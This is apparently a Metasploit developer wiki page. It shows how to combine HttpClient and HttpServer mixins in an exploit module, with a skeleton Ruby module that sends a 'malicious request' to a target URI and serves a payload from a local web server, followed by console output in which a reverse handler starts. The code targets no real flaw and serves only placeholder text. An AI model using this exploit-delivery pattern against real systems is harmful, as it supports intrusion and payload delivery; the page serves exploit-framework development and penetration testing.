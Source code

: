 Using multiple networking mixins in a Metasploit module is always a tricky thing to do, because most likely you will run into issues like overlapping datastore options, variables, methods, the super call is only meant for one mixin, etc. This is considered as advanced module development, and sometimes can be rather painful to figure out on your own. To improve the Metasploit development experience, we have a few examples to demonstrate common scenarios that require you to use multiple mixins to achieve exploitation. 

### Today's lesson: Send a HTTP request to attack the target machine, and use a HttpServer for payload delivery.

Say you want to exploit a web server or web application. You have code execution on the box, but you need to find a way to deliver the final payload (probably an executable), and a HTTP server happens to be your option.

Here is how you can set it up:

```ruby

##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HttpServer::HTML

  def initialize(info={})
    super(update_info(info,
      'Name'           => "HttpClient and HttpServer Example",
      'Description'    => %q{
        This demonstrates how to use two mixins (HttpClient and HttpServer) at the same time,
        but this allows the HttpServer to terminate after a delay.
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'sinn3r' ],
      'References'     =>
        [
          ['URL', 'http://metasploit.com']
        ],
      'Payload'        => { 'BadChars' => "\x00" },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', {} ],
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Dec 09 2013",
      'DefaultTarget'  => 0))

      register_options(
        [
          OptString.new('TARGETURI', [true, 'The path to some web application', '/']),
          OptInt.new('HTTPDELAY',    [false, 'Number of seconds the web server will wait before termination', 10])
        ], self.class)
  end

  def on_request_uri(cli, req)
    print_status("#{peer} - Payload request received: #{req.uri}")
    send_response(cli, 'You get this, I own you')
  end

  def primer
    print_status("Sending a malicious request to #{target_uri.path}")
    send_request_cgi({'uri'=>normalize_uri(target_uri.path)})
  end

  def exploit
    begin
      Timeout.timeout(datastore['HTTPDELAY']) { super }
    rescue Timeout::Error
      # When the server stops due to our timeout, this is raised
    end
  end
end
```

Here's what happens when you run the above example:

1. The super call wrapped in the Timeout block will start the web server.
2. Before the web server is in the infinite loop state, the primer() method is called, which is where you send your malicious requests to get code execution.
3. Your HttpServer serves the final payload upon request.
4. After 10 seconds, the module raises a Timeout exception. The web server finally terminates.

In case you're wondering why the web server must terminate after a period of time, this is because if the module fails to gain code execution on the target machine, obviously it will never ask your web server for the malicious payload, therefore there is no point to keeping it alive forever. Typically it shouldn't take a very long time to get a payload request, either, so we keep the timeout short.

The output for the above example should look something like this:

```msf
msf exploit(test) > run
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.1.76:4444 
[*] Using URL: http://0.0.0.0:8080/SUuv1qjZbCibL80
[*]  Local IP: http://10.0.1.76:8080/SUuv1qjZbCibL80
[*] Server started.
[*] Sending a malicious request to /
msf exploit(test) >
[*] 10.0.1.76        test - 10.0.1.76:8181 - Payload request received: /SUuv1qjZbCibL80
[*] Server stopped.

msf exploit(test) >
```

### Related Articles:

* [[How to Send an HTTP Request Using HTTPClient]]
* [[How to write a browser exploit using HttpServer]]
* <https://community.rapid7.com/community/metasploit/blog/2012/12/17/metasploit-hooks>
